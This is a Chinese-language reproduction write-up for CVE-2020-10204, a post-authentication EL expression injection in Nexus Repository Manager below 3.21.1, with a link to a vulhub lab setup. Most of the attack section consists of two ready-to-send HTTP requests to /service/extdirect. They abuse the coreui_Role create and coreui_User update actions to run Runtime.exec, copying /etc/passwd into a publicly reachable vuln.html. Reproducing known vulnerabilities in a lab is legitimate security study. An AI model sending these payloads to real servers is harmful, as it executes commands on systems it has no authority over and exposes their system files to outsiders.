

# Nexus Repository Manger extdirect 后台远程命令执行 CVE-2020-10204

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

## 漏洞影响

<a-checkbox checked>Nexus < 3.21.1</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204</a-checkbox></br>

## 漏洞复现

漏洞触发需要任意账户权限


该漏洞需要访问更新角色或创建角色接口，登录任意用户后修改 `NXSESSIONID`

发送请求包执行命令

```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}
```

另一处漏洞点

```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"]}],"type":"rpc","tid":9}
```

访问 vuln.html

